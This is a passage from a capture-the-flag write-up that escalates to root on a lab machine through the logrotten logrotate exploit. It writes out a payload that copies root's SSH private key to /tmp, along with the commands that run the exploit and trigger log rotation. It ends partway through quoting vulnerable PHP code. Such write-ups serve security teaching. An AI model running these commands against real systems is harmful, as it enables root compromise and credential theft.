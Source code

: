 After reading the report, replicating the PoC was the next step. However, the target was not returning any sort of reverse shell.

One interesting command from linpeas.sh output was root authenticating with an ssh key 

> ssh -i .ssh/id_rsa localhost

At this point it would be a safe bet to assume that there is an ssh key "id_rsa" in the /root/.ssh.

changing the payloadfile to

> if [ `id -u` -eq 0 ]; then (cat /root/.ssh/id_rsa > /tmp/root_rsa &); fi

Running the script 

> nice -n 20 ./logrotten -p payloadfile /home/reader/backups/access.log

And triggering the rotation by echo'ing anything to the access.log file

> echo '' > access.log

After a couple of tries, the /tmp/root_rsa file is created and the root SSH key is obtained!

![logrotate_exploit](/images/book/logrotate_exploit.png)

The root key can now be used to authenticate to the target and the root flag can be read as well.

Thanks for reading!

### Appendix

SQL Truncation Vulnerable code:

```
reader@book:/var/www/html/admin$ cat  users.php 
<?php
include("../db.php");
session_start();
if(isset($_SESSION["admin"]))
{
        $stmt=$conn->prepare("select name from users where email=?");
        $stmt->bind_param('s',$_SESSION["admin"]);
        $stmt->execute();
        $result = $stmt->get_result();
        $row = $result->fetch_assoc();
        $user = $row['name'];
        if(isset($_GET["email"]))
        {
```
